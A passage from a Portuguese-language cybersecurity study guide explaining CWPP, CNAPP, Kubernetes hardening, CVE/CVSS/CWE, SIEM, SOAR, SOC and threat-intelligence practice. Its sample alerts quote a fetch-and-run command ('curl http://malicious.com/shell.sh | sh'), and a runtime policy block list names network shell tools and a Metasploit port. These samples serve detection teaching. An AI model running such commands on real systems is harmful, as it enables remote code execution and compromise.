   - Kubernetes security policies
   - PCI-DSS workload requirements

4. Segmentation:
   - Microsegmentation rules
   - Network policy enforcement
   - Service mesh security
```

**Ferramentas CWPP:**

- **Aqua Security** (containers + Kubernetes)
- **Sysdig Secure** (containers + cloud)
- **Prisma Cloud Compute** (Twistlock)
- **Trend Micro Cloud One**
- **Wiz** (agentless)

**Exemplo: Container Runtime Protection**

```yaml
# Aqua Security - Runtime Policy
apiVersion: v1
kind: RuntimePolicy
metadata:
  name: production-containers
spec:
  enforcement_mode: enforce  # block | audit | enforce
  
  # File System Protection
  file_block_rules:
    - path: /etc/passwd
      action: block
      reason: "Critical system file modification"
    - path: /bin/*
      action: audit
      reason: "Binary modification detected"
  
  # Process Protection
  blocked_executables:
    - /bin/bash
    - /bin/sh
    - nc
    - ncat
    - wget
    - curl
  
  # Network Protection
  blocked_outbound_ports:
    - 4444  # Metasploit default
    - 6667  # IRC
  
  blocked_ips:
    - 185.220.101.0/24  # Known C2 range
  
  # Drift Prevention
  allowed_processes:
    - /app/main
    - /usr/bin/java
  
  drift_prevention: true  # Block processes not in image
```

**Alert example:**

```json
{
  "alert_id": "ALT-2024-00892",
  "severity": "high",
  "timestamp": "2024-02-10T15:34:22Z",
  "type": "malicious_process",
  
  "resource": {
    "type": "container",
    "name": "web-app-7f8c9d-xyz",
    "image": "company/web-app:v1.2.3",
    "namespace": "production",
    "node": "ip-10-0-1-50.ec2.internal"
  },
  
  "event": {
    "description": "Unauthorized process execution detected",
    "process": "/bin/bash -c 'curl http://malicious.com/shell.sh | sh'",
    "parent_process": "/app/main",
    "user": "root",
    "action": "BLOCKED"
  },
  
  "threat_intel": {
    "indicator": "malicious.com",
    "type": "domain",
    "threat_actor": "APT29",
    "first_seen": "2024-01-15",
    "confidence": "high"
  },
  
  "recommendation": "Investigate container compromise. Check application logs for initial access vector."
}
```

---

### CNAPP - Cloud-Native Application Protection Platform

**Definição:** Plataforma **unificada** que combina **CSPM + CWPP + CIEM + KSPM** em uma única solução.

**Evolução:**



**Componentes CNAPP:**

```yaml
CSPM (Cloud Security Posture):
  - IaC scanning
  - Configuration monitoring
  - Compliance automation

CWPP (Workload Protection):
  - VM/container security
  - Runtime protection
  - Vulnerability management

CIEM (Cloud Infrastructure Entitlement Management):
  - IAM analysis
  - Least privilege enforcement
  - Permission rightsizing

KSPM (Kubernetes Security Posture):
  - K8s misconfiguration detection
  - RBAC analysis
  - Admission control

CSNS (Cloud Security Network Segmentation):
  - Microsegmentation
  - Network policy generation
  - Traffic visualization
```

**Vendors CNAPP:**

- **Wiz** (líder emergente)
- **Prisma Cloud** (Palo Alto)
- **Orca Security**
- **Lacework**
- **Sysdig**

**Exemplo de análise unificada (Wiz):**

```yaml
Critical Path Analysis:

Issue: Privilege Escalation to Production Database
Risk Score: 95/100 (CRITICAL)

Attack Path:
  1. Public S3 bucket contains AWS credentials
     └─ s3://company-public/config/aws-keys.json
     
  2. Credentials belong to EC2 instance role
     └─ IAM Role: prod-web-app-role
     
  3. Role has excessive permissions
     └─ Policy: AdministratorAccess (!!!!)
     
  4. Role can assume Database Admin role
     └─ sts:AssumeRole on prod-db-admin-role
     
  5. Database Admin has RDS access
     └─ Full access to prod-customer-db

Impact:
  - Data Breach: 2.5M customer records
  - Compliance: GDPR violation
  - Business: Brand reputation damage

Choke Points (Fix Priority):
  1. Remove public access from S3 bucket
     Impact: Blocks 100% of attack paths
     Effort: 5 minutes
  
  2. Rotate exposed credentials
     Impact: Invalidates leaked keys
     Effort: 15 minutes
  
  3. Apply least privilege to IAM role
     Impact: Limits lateral movement
     Effort: 2 hours
```

---

### K8s - Kubernetes

**Definição:** Sistema de **orquestração de containers** que automatiza deployment, scaling e management de aplicações containerizadas.

**Componentes de Segurança:**

```yaml
Control Plane Security:
  - API Server authentication/authorization
  - etcd encryption (secrets at rest)
  - Admission controllers (policy enforcement)
  
Node Security:
  - Kubelet authorization
  - Container runtime security (containerd/CRI-O)
  - Node OS hardening
  
Network Security:
  - Network Policies (firewalling)
  - Service Mesh (mTLS - Istio, Linkerd)
  - Ingress/Egress controls
  
Workload Security:
  - Pod Security Standards
  - Security Context (runAsNonRoot, readOnlyRootFilesystem)
  - Resource limits
  - Image scanning
```

**Principais vulnerabilidades K8s:**

```yaml
Misconfigurations (90% dos problemas):
  ✗ Privileged containers
  ✗ Containers running as root
  ✗ Host network/PID/IPC sharing
  ✗ Writable root filesystem
  ✗ No resource limits (CPU/Memory bombs)
  ✗ Secrets in environment variables
  ✗ Insecure API server (no auth)

Supply Chain:
  ✗ Untrusted container images
  ✗ Vulnerable base images (Alpine, Ubuntu)
  ✗ No image signing/verification
  ✗ Public registries without scan
```

**Secure Pod Example:**

```yaml
# ❌ INSECURE POD
apiVersion: v1
kind: Pod
metadata:
  name: insecure-app
spec:
  containers:
  - name: app
    image: myapp:latest  # No tag pinning
    securityContext:
      privileged: true   # ❌ Full host access
      runAsUser: 0       # ❌ Running as root
    volumeMounts:
    - name: docker-sock
      mountPath: /var/run/docker.sock  # ❌ Docker socket exposed
  volumes:
  - name: docker-sock
    hostPath:
      path: /var/run/docker.sock

---

# ✅ SECURE POD
apiVersion: v1
kind: Pod
metadata:
  name: secure-app
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000
    fsGroup: 2000
    seccompProfile:
      type: RuntimeDefault
  
  containers:
  - name: app
    image: myapp@sha256:a3f7c8e9...  # ✅ Digest pinning
    
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      runAsNonRoot: true
      capabilities:
        drop:
          - ALL
        add:
          - NET_BIND_SERVICE
    
    resources:
      limits:
        cpu: "1"
        memory: "512Mi"
      requests:
        cpu: "100m"
        memory: "128Mi"
    
    volumeMounts:
    - name: tmp
      mountPath: /tmp
    - name: cache
      mountPath: /app/cache
  
  volumes:
  - name: tmp
    emptyDir: {}
  - name: cache
    emptyDir: {}
```

**Kubernetes Security Tools:**

|Categoria|Ferramenta|Uso|
|---|---|---|
|**Policy Enforcement**|OPA/Gatekeeper, Kyverno|Admission control|
|**Image Scanning**|Trivy, Clair, Anchore|Vulnerabilidades em imagens|
|**Runtime Security**|Falco, Aqua, Sysdig|Threat detection|
|**Network Security**|Calico, Cilium|Network policies|
|**Compliance**|kube-bench, kube-hunter|CIS benchmark validation|
|**Secrets Management**|Sealed Secrets, External Secrets|Avoid plaintext secrets|

**Falco - Runtime Detection:**

```yaml
# /etc/falco/falco_rules.local.yaml
- rule: Unauthorized Process in Container
  desc: Detect unauthorized process execution
  condition: >
    spawned_process and
    container and
    not proc.name in (allowed_processes) and
    not proc.pname in (allowed_processes)
  output: >
    Unauthorized process started
    (user=%user.name command=%proc.cmdline container=%container.name
    image=%container.image.repository)
  priority: WARNING

# Alert output:
15:42:10.234567890: Warning Unauthorized process started
(user=root command=bash -c 'curl http://malicious.com/shell.sh | sh'
container=web-app-7f8c9d-xyz image=company/web-app)
```

---

## 🔍 Vulnerabilidades e Métricas

### CVE - Common Vulnerabilities and Exposures

**Definição:** Identificador **único e público** para vulnerabilidades de segurança conhecidas.

**Estrutura CVE:**

```yaml
Format: CVE-YEAR-NNNNN
Example: CVE-2021-44228

CVE-2021-44228:
  Year: 2021 (descoberta)
  Number: 44228 (sequencial)
  Name: Log4Shell
  
Components:
  - CVE ID (identificador)
  - Description (descrição técnica)
  - References (links, advisories)
  - Date Published
  - Date Last Modified
```

**Lifecycle de um CVE:**



**CVE famosos (History):**

```yaml
CVE-2014-0160 (Heartbleed):
  Component: OpenSSL
  Impact: Memory disclosure (passwords, keys)
  Affected: 17% of all HTTPS servers
  
CVE-2017-5638 (Apache Struts):
  Component: Jakarta Multipart parser
  Impact: Remote Code Execution
  Famous Breach: Equifax (143M records)
  
CVE-2019-0708 (BlueKeep):
  Component: Windows RDP
  Impact: Wormable RCE (no auth)
  Affected: 1M+ internet-exposed systems
  
CVE-2021-44228 (Log4Shell):
  Component: Apache Log4j
  Impact: Remote Code Execution via JNDI
  Affected: 93% of Java enterprise apps
  CVSS: 10.0 (Critical)
  
CVE-2022-22965 (Spring4Shell):
  Component: Spring Framework
  Impact: Remote Code Execution
  CVSS: 9.8 (Critical)
  
CVE-2023-23397 (Outlook):
  Component: Microsoft Outlook
  Impact: NTLM hash leak
  CVSS: 9.8 (Critical)
```

**CVE Database查询:**

```bash
# National Vulnerability Database (NVD)
curl "https://services.nvd.nist.gov/rest/json/cves/2.0?cveId=CVE-2021-44228" | jq

# Response:
{
  "id": "CVE-2021-44228",
  "sourceIdentifier": "security@apache.org",
  "published": "2021-12-10T10:15Z",
  "lastModified": "2023-11-07T03:42Z",
  
  "vulnStatus": "Analyzed",
  
  "descriptions": [{
    "lang": "en",
    "value": "Apache Log4j2 2.0-beta9 through 2.15.0 (excluding 2.12.2, 2.12.3, and 2.3.1) JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled."
  }],
  
  "metrics": {
    "cvssMetricV31": [{
      "cvssData": {
        "version": "3.1",
        "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H",
        "baseScore": 10.0,
        "baseSeverity": "CRITICAL"
      }
    }]
  },
  
  "weaknesses": [{
    "type": "CWE",
    "description": [{ "value": "CWE-502" }]  # Deserialization
  }],
  
  "references": [
    { "url": "https://logging.apache.org/log4j/2.x/security.html" },
    { "url": "https://www.lunasec.io/docs/blog/log4j-zero-day/" }
  ]
}
```

---

### CVSS - Common Vulnerability Scoring System

**Definição:** Sistema de **pontuação padronizado** para medir a severidade de vulnerabilidades (0.0 a 10.0).

**CVSS v3.1 Metrics:**

```yaml
Base Metrics (Características intrínsecas):
  
  Attack Vector (AV):
    - Network (N): Remotely exploitable
    - Adjacent (A): Same network segment
    - Local (L): Local access required
    - Physical (P): Physical access required
  
  Attack Complexity (AC):
    - Low (L): No special conditions
    - High (H): Requires specific conditions
  
  Privileges Required (PR):
    - None (N): No authentication
    - Low (L): Basic user privileges
    - High (H): Admin privileges required
  
  User Interaction (UI):
    - None (N): Fully automated
    - Required (R): User action needed
  
  Scope (S):
    - Unchanged (U): Same security scope
    - Changed (C): Affects other components
  
  Impact Metrics:
    - Confidentiality (C): Data disclosure
    - Integrity (I): Data modification
    - Availability (A): Service disruption
    Each: None (N), Low (L), High (H)
```

**CVSS Calculator Example:**

```yaml
Vulnerability: SQL Injection in Web App

Vector String: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

Breakdown:
  AV:N - Network (exploitable remotely via HTTP)
  AC:L - Low complexity (simple SQL injection)
  PR:N - No privileges (unauthenticated)
  UI:N - No user interaction (automated)
  S:U - Scope unchanged (only affects web app)
  C:H - High confidentiality impact (database dump)
  I:H - High integrity impact (can modify data)
  A:H - High availability impact (can DROP tables)

Base Score: 9.8 (CRITICAL)

Severity Ratings:
  0.0       = None
  0.1-3.9   = Low
  4.0-6.9   = Medium
  7.0-8.9   = High
  9.0-10.0  = Critical
```

**Temporal Metrics (Mudança ao longo do tempo):**

```yaml
Exploit Code Maturity (E):
  - Not Defined (X)
  - Unproven (U): No public exploit
  - Proof-of-Concept (P): PoC available
  - Functional (F): Working exploit
  - High (H): Automated exploit/worm

Remediation Level (RL):
  - Not Defined (X)
  - Official Fix (O): Vendor patch
  - Temporary Fix (T): Workaround
  - Workaround (W): Partial mitigation
  - Unavailable (U): No fix available

Report Confidence (RC):
  - Not Defined (X)
  - Unknown (U): Unconfirmed
  - Reasonable (R): Some evidence
  - Confirmed (C): Vendor confirmed

Example:
  Base Score: 9.8
  Temporal Vector: E:F/RL:O/RC:C
  Temporal Score: 9.1 (slightly lower due to patch available)
```

**Environmental Metrics (Contexto da organização):**

```yaml
Modified Base Metrics:
  - Adjust based on YOUR environment
  - Example: SQL Injection in internal-only app
    
    MAV:A (Adjacent - not internet-facing)
    MC:L (Low confidentiality - test data only)
    MI:L (Low integrity - non-critical)
    MA:N (None availability - redundant system)
    
    Environmental Score: 4.2 (MEDIUM) vs Base 9.8 (CRITICAL)

Security Requirements:
  - Confidentiality Requirement (CR): Low/Medium/High
  - Integrity Requirement (IR): Low/Medium/High
  - Availability Requirement (AR): Low/Medium/High
```

---

### CWE - Common Weakness Enumeration

**Definição:** Taxonomia de **tipos** de vulnerabilidades de software (categorias de erros).

**CVE vs CWE:**

```yaml
CVE (Specific Instance):
  - CVE-2021-44228 (Log4Shell)
  - Specific vulnerability in Apache Log4j 2.15.0
  - "The patient has pneumonia"

CWE (Category/Type):
  - CWE-502 (Deserialization of Untrusted Data)
  - Generic weakness type
  - "Pneumonia is a lung disease"
```

**Top 25 CWEs (2023):**

|Rank|CWE|Nome|Exemplos|
|---|---|---|---|
|1|CWE-79|Cross-site Scripting (XSS)|Reflected/Stored/DOM XSS|
|2|CWE-89|SQL Injection|SQLi, Blind SQLi|
|3|CWE-20|Improper Input Validation|Command injection, path traversal|
|4|CWE-78|OS Command Injection|Shell injection|
|5|CWE-787|Out-of-bounds Write|Buffer overflow|
|6|CWE-22|Path Traversal|Directory traversal|
|7|CWE-352|CSRF|Cross-Site Request Forgery|
|8|CWE-434|Unrestricted File Upload|Malicious file upload|
|9|CWE-862|Missing Authorization|Broken access control|
|10|CWE-476|NULL Pointer Dereference|Crashes, DoS|

**CWE Hierarchy:**

```yaml
CWE-707: Improper Neutralization
  └─ CWE-74: Improper Neutralization of Special Elements
      ├─ CWE-79: XSS
      ├─ CWE-89: SQL Injection
      ├─ CWE-78: OS Command Injection
      └─ CWE-91: XML Injection

CWE-664: Improper Control of a Resource
  └─ CWE-400: Uncontrolled Resource Consumption
      ├─ CWE-770: Allocation without Limits
      ├─ CWE-835: Loop with Unreachable Exit
      └─ CWE-1333: Inefficient Regular Expression
```

**Mapping CVE → CWE:**

```yaml
CVE-2021-44228 (Log4Shell):
  Primary CWE: CWE-502 (Deserialization of Untrusted Data)
  Secondary: CWE-20 (Improper Input Validation)
  
CVE-2022-22965 (Spring4Shell):
  Primary CWE: CWE-94 (Code Injection)
  Secondary: CWE-913 (Improper Control of Dynamically-Managed Code Resources)

CVE-2017-5638 (Apache Struts):
  Primary CWE: CWE-20 (Improper Input Validation)
  Secondary: CWE-78 (OS Command Injection)
```

---

### NVD - National Vulnerability Database

**Definição:** Repositório do governo dos EUA com **todos** os CVEs publicados, incluindo CVSS scores, referências e patches.

**Acesso:**

```bash
# API REST (pública, gratuita)
curl "https://services.nvd.nist.gov/rest/json/cves/2.0" \
  -H "apiKey: YOUR_API_KEY" \
  -d "pubStartDate=2024-01-01T00:00:00.000" \
  -d "pubEndDate=2024-02-10T23:59:59.999"

# Buscar por keyword
curl "https://services.nvd.nist.gov/rest/json/cves/2.0?keywordSearch=log4j"

# Buscar por CVSS score
curl "https://services.nvd.nist.gov/rest/json/cves/2.0?cvssV3Severity=CRITICAL"
```

**Data Feed (bulk download):**

```bash
# Download CVE feeds (JSON)
wget https://nvd.nist.gov/feeds/json/cve/1.1/nvdcve-1.1-2024.json.gz
gunzip nvdcve-1.1-2024.json.gz

# Parse com jq
jq '.CVE_Items[] | select(.impact.baseMetricV3.cvssV3.baseScore >= 9.0)' nvdcve-1.1-2024.json
```

---

### Zero-Day (0-day)

**Definição:** Vulnerabilidade **desconhecida** pelo vendor ou para a qual **não existe patch** disponível.

**Fases de um 0-day:**



**Zero-Day vs N-Day:**

```yaml
Zero-Day:
  - Vendor não conhece
  - Sem patch disponível
  - Altamente valiosos (black market: $100k-$2M)
  - Usados em ataques direcionados (APTs)
  
N-Day (1-day, 2-day, etc):
  - Vendor conhece e divulgou
  - Patch disponível
  - Organizações não aplicaram patch ainda
  - Usado em ataques em massa
  - Exemplo: 60% das violações usam N-days (não 0-days)
```

**Famosos 0-days:**

```yaml
Stuxnet (2010):
  - 4 zero-days simultâneos (Windows)
  - Atacou centrífugas nucleares iranianas
  - Atribuído: NSA + Mossad

EternalBlue (2017):
  - 0-day da NSA vazado por Shadow Brokers
  - Usado em: WannaCry, NotPetya
  - Impacto: $10B+ em danos

Pegasus (NSO Group):
  - 0-days iOS contínuos (2016-2023)
  - Zero-click exploits (sem interação)
  - Usado contra jornalistas, ativistas

Log4Shell (CVE-2021-44228):
  - Tecnicamente não é 0-day (foi reportado)
  - Mas exploração começou ANTES do patch público
  - "In-the-wild 0-day" por ~2 semanas
```

**Proteção contra 0-days:**

```yaml
Preventive (Antes do ataque):
  ✓ Virtual Patching (WAF, RASP)
  ✓ Exploit mitigation (ASLR, DEP, CFG)
  ✓ Least privilege (limita impacto)
  ✓ Network segmentation

Detective (Durante/Após):
  ✓ EDR/XDR (behavioral analysis)
  ✓ SIEM correlation
  ✓ Threat intelligence (IOCs)
  ✓ Honeypots

Responsive:
  ✓ Incident response plan
  ✓ Forensics capability
  ✓ Backup & recovery
```

---

## 🛡️ Operações de Defesa e Resposta

### SIEM - Security Information and Event Management

**Definição:** Plataforma centralizada que **agrega, correlaciona e analisa** logs de toda a infraestrutura para detectar incidentes de segurança.

**Componentes:**

```yaml
Log Collection:
  - Syslog (firewalls, switches, routers)
  - Agents (endpoints, servers)
  - APIs (cloud services, SaaS)
  - Streaming (Kafka, Fluentd)

Normalization:
  - Parse logs em campos estruturados
  - Timestamp standardization
  - Field mapping (src_ip, dst_ip, user, action)

Correlation:
  - Rule-based (if X then Y)
  - Statistical (anomaly detection)
  - Machine Learning (UBA - User Behavior Analytics)

Alerting:
  - Thresholds (> 100 failed logins)
  - Patterns (port scan detected)
  - Time-based (after business hours)

Response:
  - Tickets (Jira, ServiceNow)
  - SOAR integration (automated response)
  - Analyst investigation
```

**Ferramentas SIEM:**

|Ferramenta|Tipo|Destaque|
|---|---|---|
|**Splunk Enterprise**|Comercial|Líder de mercado, search poderoso|
|**Elastic (ELK)**|Open-Source|Elasticsearch + Logstash + Kibana|
|**Microsoft Sentinel**|Cloud|Integração Azure/M365|
|**IBM QRadar**|Comercial|Compliance (healthcare, finance)|
|**LogRhythm**|Comercial|SOAR integrado|
|**Sumo Logic**|Cloud|Cloud-native|

**Exemplo de correlação (Splunk):**

```spl
# Detectar Brute Force Attack
index=windows EventCode=4625  # Failed logon
| stats count by src_ip, user
| where count > 10
| eval severity="high"

# Detectar Lateral Movement
index=windows EventCode=4624 Logon_Type=3  # Network logon
| transaction src_ip maxspan=5m
| where mvcount(dest_host) > 5  # Múltiplos hosts em 5 min
| eval threat="lateral_movement"

# Correlacionar com Threat Intel
index=firewall action=allowed
| lookup threat_intel_ip ip as dest_ip OUTPUT threat_score
| where threat_score > 80
| alert
```

**Use Case: Detecting C2 Communication**

```yaml
# SIEM Rule
name: "Potential C2 Beacon Activity"
description: "Detect periodic outbound connections (beacon pattern)"

query: |
  index=proxy OR index=firewall
  | where dest_port IN (443, 8080, 4444)
  | bucket _time span=1m
  | stats count by src_ip, dest_ip, _time
  | streamstats window=60 stdev(count) as stddev avg(count) as avg by src_ip, dest_ip
  | where stddev < 2 AND avg > 5
  # Low variance + regular frequency = beacon

trigger:
  condition: count > 20
  timeframe: 1 hour

action:
  - Create alert
  - Block dest_ip at firewall
  - Isolate src_ip (EDR)
  - Create incident ticket
```

---

### SOAR - Security Orchestration, Automation, and Response

**Definição:** Automação de **resposta a incidentes** através de playbooks que orquestram múltiplas ferramentas de segurança.

**Capabilities:**

```yaml
Orchestration:
  - Integra 50+ ferramentas (SIEM, EDR, firewall, etc)
  - Workflow engine (drag-and-drop)
  - API connectors

Automation:
  - Playbooks (runbooks automatizados)
  - If-Then-Else logic
  - Loops e condições

Response:
  - Containment (isolate host, block IP)
  - Investigation (enrich IOCs, query logs)
  - Remediation (patch, reset password)
  - Documentation (case management)
```

**Ferramentas SOAR:**

- **Palo Alto Cortex XSOAR** (líder)
- **Splunk Phantom**
- **IBM Resilient**
- **Swimlane**
- **Tines** (low-code)

**Exemplo de Playbook:**

```yaml
Playbook: "Phishing Email Response"

Trigger:
  - Email marked as phishing by user
  - OR SIEM detects suspicious email

Steps:
  1. Extract IOCs from email
     Actions:
       - Parse email headers (sender IP, domain)
       - Extract URLs and attachments
       - Calculate file hashes (SHA-256)
  
  2. Enrich IOCs with Threat Intel
     Integrations:
       - VirusTotal (check hashes)
       - AbuseIPDB (check sender IP)
       - URLScan.io (scan URLs)
  
  3. Determine Severity
     Logic:
       IF VirusTotal detections > 5 OR
          AbuseIPDB confidence > 80 OR
          URL leads to known phishing kit
       THEN severity = HIGH
       ELSE severity = MEDIUM
  
  4. Containment (if HIGH severity)
     Actions:
       - Quarantine email (Exchange API)
       - Block sender domain (Email Gateway)
       - Block URLs (Proxy/Firewall)
       - Search for similar emails (delete all)
  
  5. User Actions
     Actions:
       - Reset password (if clicked link)
       - Revoke active sessions
       - Enable MFA (if not already)
  
  6. Investigation
     Actions:
       - Check EDR for malware (if attachment opened)
       - Review proxy logs (if URL visited)
       - Search SIEM for anomalous activity
  
  7. Documentation
     Actions:
       - Create incident ticket (ServiceNow)
       - Update threat intel platform
       - Send report to security team
  
  8. Notification
     Actions:
       - Email user (education)
       - Slack message to SOC
       - Update metrics dashboard

Metrics:
  - Manual process: 45 minutes
  - Automated (SOAR): 3 minutes
  - Efficiency gain: 93%
```

---

### SOC - Security Operations Center

**Definição:** Equipe centralizada que monitora, detecta e responde a incidentes de segurança **24/7**.

**Níveis (Tiers):**

```yaml
Tier 1 - Triage / Alert Monitoring:
  Role: First responders
  Tasks:
    - Monitor SIEM dashboards
    - Triage alerts (true positive vs false positive)
    - Escalate to Tier 2
  Skills: Basic security knowledge
  Tools: SIEM, ticketing system

Tier 2 - Incident Response:
  Role: Analysts
  Tasks:
    - Investigate escalated incidents
    - Perform forensics (memory dumps, disk images)
    - Containment actions
    - Root cause analysis
  Skills: Threat hunting, forensics
  Tools: SIEM, EDR, Wireshark, Volatility

Tier 3 - Threat Hunting / Advanced Analysis:
  Role: Senior analysts / hunters
  Tasks:
    - Proactive threat hunting
    - Malware reverse engineering
    - Develop detection rules
    - Threat intelligence
  Skills: Deep technical expertise
  Tools: IDA Pro, Ghidra, YARA, Sigma

SOC Manager:
  Role: Leadership
  Tasks:
    - Strategy & planning
    - Metrics & reporting (MTTD, MTTR)
    - Tool selection
    - Team management
```

**SOC Metrics:**

```yaml
Detection Metrics:
  - MTTD (Mean Time to Detect): 3 days → 8 hours (goal)
  - Alert Volume: 10,000/day → Tune to reduce noise
  - False Positive Rate: 60% → 15% (goal)
  - Coverage: 85% of MITRE ATT&CK techniques

Response Metrics:
  - MTTR (Mean Time to Respond): 24 hours → 4 hours (goal)
  - MTTC (Mean Time to Contain): 48 hours → 6 hours (goal)
  - MTTR (Mean Time to Recover): 7 days → 24 hours (goal)

Efficiency Metrics:
  - Alerts Handled per Analyst: 50/day
  - Automation Rate: 30% → 70% (SOAR)
  - Escalation Rate: 20% (Tier 1 → Tier 2)
```

---

### CTI - Cyber Threat Intelligence

**Definição:** Coleta, análise e disseminação de informações sobre **ameaças cibernéticas** (TTPs, IOCs, threat actors).

**Tipos de CTI:**

```yaml
Strategic Threat Intelligence:
  Audience: C-level, Board
  Content: Trends, risk, geopolitics
  Example: "APT28 targeting energy sector in Europe"
  Timeframe: Long-term (months/years)

Operational Threat Intelligence:
  Audience: SOC Manager, IR Team
  Content: Campaigns, attack vectors
  Example: "Phishing campaign using COVID-19 lures"
  Timeframe: Medium-term (weeks/months)

Tactical Threat Intelligence:
  Audience: SOC Analysts
  Content: TTPs, techniques
  Example: "Attackers using Mimikatz for credential theft"
  Timeframe: Short-term (days/weeks)

Technical Threat Intelligence:
  Audience: Detection engineers
  Content: IOCs (IPs, hashes, domains)
  Example: "C2 server: 185.220.101.42"
  Timeframe: Immediate (hours/days)
```

**Threat Intel Platforms:**

|Plataforma|Tipo|Uso|
|---|---|---|
|**OpenCTI**|Open-Source|STIX/TAXII, graph database|
|**MISP**|Open-Source|Sharing platform (communities)|
|**ThreatConnect**|Comercial|Enterprise TIP|
|**Anomali**|Comercial|Threat intel aggregation|
|**RecordedFuture**|Comercial|AI-powered intel|

**Exemplo: OpenCTI Workflow**

```yaml
# Import threat intel sources
Sources:
  - AlienVault OTX (open threat exchange)
  - MITRE ATT&CK (techniques)
  - CIRCL (OSINT feeds)
  - Commercial feeds (Recorded Future)

# Data Model (STIX 2.1)
Entities:
  - Threat Actor: APT28 (Fancy Bear)
  - Malware: X-Agent
  - Tool: Mimikatz
  - Indicator: IP 185.220.101.42
  - Attack Pattern: T1003 (Credential Dumping)

Relationships:
  APT28 --uses--> X-Agent
  X-Agent --drops--> Mimikatz
  Mimikatz --implements--> T1003
  APT28 --attributed-to--> Russia (GRU)

# Export to SIEM
curl -X POST https://siem.company.com/api/import \
  -H "Content-Type: application/json" \
  -d '{
    "type": "indicator",
    "pattern": "[ipv4-addr:value = '185.220.101.42']",
    "threat_actor": "APT28",
    "confidence": 95,
    "action": "block"
  }'

# SIEM creates alert rule:
IF dest_ip = 185.220.101.42
THEN alert("APT28 C2 communication detected")
     AND block_ip(185.220.101.42)
     AND isolate_host(src_ip)
```

---

## 📋 Processos e Governança

### CI/CD - Continuous Integration / Continuous Delivery

**Definição:** Pipeline automatizado que move código de **desenvolvimento → produção** com testes e validações em cada etapa.

**Estágios típicos:**

```yaml
1. Source (Code Commit):
   - Developer: git push
   - Trigger: Webhook (GitHub, GitLab)

2. Build:
   - Compile code
   - Dependency resolution
   - Security: SCA (check dependencies)

3. Test:
   - Unit tests
   - Integration tests
   - Security: SAST (scan source code)

4. Package:
   - Create artifacts (Docker image, JAR, etc)
   - Security: Image scanning (Trivy, Clair)

5. Deploy (Staging):
   - Deploy to staging environment
   - Security: DAST (ZAP scan)

6. Verify:
   - Smoke tests
   - Performance tests
   - Security: IAST (if agent installed)

7. Deploy (Production):
   - Blue-Green or Canary deployment
   - Security: RASP enabled

8. Monitor:
   - Application monitoring (APM)
   - Security: Runtime protection, SIEM
```

**Security Gates (DevSecOps):**

```yaml
Pre-Commit (Developer Workstation):
  - SonarLint (IDE plugin)
  - Git hooks (pre-commit)
  - Secret detection (git-secrets)

Commit (CI Pipeline):
  - SAST scan (SonarQube)
  - SCA scan (Snyk, Dependabot)
  - Secrets scanning (TruffleHog)
  - Quality Gate validation

Build:
  - IaC scanning (Checkov, tfsec)
  - Container image scanning (Trivy)
  - License compliance

Test:
  - DAST scan (OWASP ZAP)
  - API security testing (Postman + Newman)

Deploy:
  - Kubernetes admission control (OPA)
  - Runtime policies (Falco)
  - Network policies

Production:
  - RASP enabled
  - WAF enabled
  - SIEM monitoring
```

**Exemplo: GitHub Actions com Security**

```yaml
name: Secure CI/CD Pipeline

on:
  push:
    branches: [main, develop]
  pull_request:

jobs:
  security-sast:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      
      - name: SonarQube Scan
        uses: sonarsource/sonarqube-scan-action@master
        env:
          SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}
      
      - name: Quality Gate
        uses: sonarsource/sonarqube-quality-gate-action@master
        timeout-minutes: 5
        env:
          SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}
  
  security-sca:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      
      - name: Snyk SCA Scan
        uses: snyk/actions/node@master
        env:
          SNYK_TOKEN: ${{ secrets.SNYK_TOKEN }}
        with:
          args: --severity-threshold=high
  
  security-secrets:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0
      
      - name: TruffleHog Secrets Scan
        uses: trufflesecurity/trufflehog@main
        with:
          path: ./
          base: ${{ github.event.repository.default_branch }}
          head: HEAD
  
  build:
    needs: [security-sast, security-sca, security-secrets]
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      
      - name: Build Docker Image
        run: docker build -t myapp:${{ github.sha }} .
      
      - name: Trivy Image Scan
        uses: aquasecurity/trivy-action@master
        with:
          image-ref: myapp:${{ github.sha }}
          severity: 'CRITICAL,HIGH'
          exit-code: 1  # Fail build on vulnerabilities
  
  deploy:
    needs: build
    if: github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    steps:
      - name: Deploy to Kubernetes
        run: |
          kubectl set image deployment/myapp \
            myapp=myapp:${{ github.sha }}
      
      - name: DAST Scan (async)
        run: |
          # Trigger ZAP scan (don't block deployment)
          curl -X POST https://zap.company.com/api/scan \
            -d "target=https://staging.company.com"
```

---

### SBOM - Software Bill of Materials

**Definição:** Inventário completo e formal de **todos os componentes** (libraries, frameworks, tools) que compõem um software.

**Por que SBOM é importante:**

```yaml
Supply Chain Attacks:
  - SolarWinds (2020): Backdoor em update mechanism
  - Log4Shell (2021): Vulnerability in transitive dependency
  - Event-Stream (2018): Malicious npm package

Regulatory Requirements:
  - Executive Order 14028 (US Gov): Requires SBOM for software procurement
  - NTIA: Minimum elements for SBOM
  - EU Cyber Resilience Act: SBOM mandatory

Incident Response:
  - "Do we use Log4j?" → SBOM answers in seconds
  - Without SBOM: Days of manual searching
```

**Formatos SBOM:**

```yaml
SPDX (Software Package Data Exchange):
  - Linux Foundation standard
  - ISO/IEC 5962:2021
  - Format: JSON, YAML, RDF, XML

CycloneDX:
  - OWASP project
  - Security-focused
  - Format: JSON, XML, Protobuf

SWID (Software Identification Tags):
  - ISO/IEC 19770-2
  - Embedded in software
  - Format: XML
```

**Exemplo: Gerar SBOM**

```bash
# Syft (Anchore) - Multi-language
syft packages dir:. -o cyclonedx-json > sbom.json

# SBOM Output (CycloneDX):
{
  "bomFormat": "CycloneDX",
  "specVersion": "1.4",
  "serialNumber": "urn:uuid:3e671687-395b-41f5-a30f-a58921a69b79",
  "version": 1,
